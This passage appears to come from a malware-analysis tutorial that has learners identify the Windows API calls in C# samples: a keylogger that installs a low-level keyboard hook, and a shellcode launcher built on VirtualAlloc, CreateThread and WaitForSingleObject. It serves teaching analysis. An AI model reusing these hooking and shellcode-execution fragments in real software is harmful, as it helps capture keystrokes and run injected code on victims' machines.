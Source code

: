 ```
public static void Main() {
	_hookID = SetHook(_proc);
	Application.Run();
	UnhookWindowsHookEx(_hookID);
	Application.Exit();
}
private static IntPtr SetHook(LowLevelKeyboardProc proc) {
	using (Process curProcess = Process.GetCurrentProcess()) {
		return SetWindowsHookEx(WHKEYBOARDLL, proc, GetModuleHandle(curProcess.ProcessName), 0);
	}
}
```

Let’s understand the objective and procedure of the keylogger, then assign their respective API call from the above snippet.

Using the [Windows API documentation](https://docs.microsoft.com/en-us/windows/win32/apiindex/windows-api-list) and the context of the above snippet, begin analyzing the keylogger, using questions 1 - 4 as a guide to  work through the sample. 

### Shellcode Launcher

To begin analyzing the shellcode launcher, we once again need to collect which API calls it is implementing. This process should look identical to the previous case study. Below is a snippet of the p/invoke definitions of the malware sample source code.

```
private static UInt32 MEM_COMMIT = 0x1000;
private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
[DllImport("kernel32")]
private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);
[DllImport("kernel32")]
private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
[DllImport("kernel32")]
private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);
```

Below is an explanation of each API call and its respective use.

|**API Call**|**Explanation**|
|------------|---------------|
|VirtualAlloc|Reserves, commits, or changes the state of a region of pages in the virtual address space of the calling process.|
|WaitForSingleObject|Waits until the specified object is in the signaled state or the time-out interval elapses|
|CreateThread|Creates a thread to execute within the virtual address space of the calling process|

We will now analyze how the shellcode is written to and executed from memory.

```
UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
IntPtr hThread = IntPtr.Zero;
UInt32 threadId = 0;
IntPtr pinfo = IntPtr.Zero;
hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
WaitForSingleObject(hThread, 0xFFFFFFFF);
return;
```
